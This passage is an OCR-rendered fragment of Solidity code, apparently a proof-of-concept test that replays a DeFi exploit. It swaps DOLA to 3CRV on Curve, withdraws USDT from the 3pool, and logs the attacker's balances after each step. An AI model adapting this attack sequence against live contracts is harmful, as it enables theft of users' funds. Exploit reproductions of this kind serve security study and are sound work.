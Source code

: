 │     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, WBTC balance of attacker:",                                                                                                                                                                                                       │
│       WBTC.balanceOf(address(this)) / 1e8                                                                                                                                                                                                            │
│     );                                                                                                                                                                                                                                               │
│     curveRegistry.exchange(                                                                                                                                                                                                                          │
│       address(dola3pool3crv),                                                                                                                                                                                                                        │
│       address(DOLA),                                                                                                                                                                                                                                 │
│       address(crv3),                                                                                                                                                                                                                                 │
│       10133949192393802606886848,                                                                                                                                                                                                                    │
│       0,                                                                                                                                                                                                                                             │
│       address(this)                                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap,3crv balance of attacker:",                                                                                                                                                                                                        │
│       crv3.balanceOf(address(this))                                                                                                                                                                                                                  │
│     );                                                                                                                                                                                                                                               │
│     curve3pool.remove_liquidity_one_coin(9881355040729892287779421, 2, 0);                                                                                                                                                                           │
│     emit log_named_uint(                                                                                                                                                                                                                             │
│       "After swap, USDT balance of attacker:",                                                                                                                                                                                                       │
│       usdt.balanceOf(address(this))                                                                                                                                                                                                                  │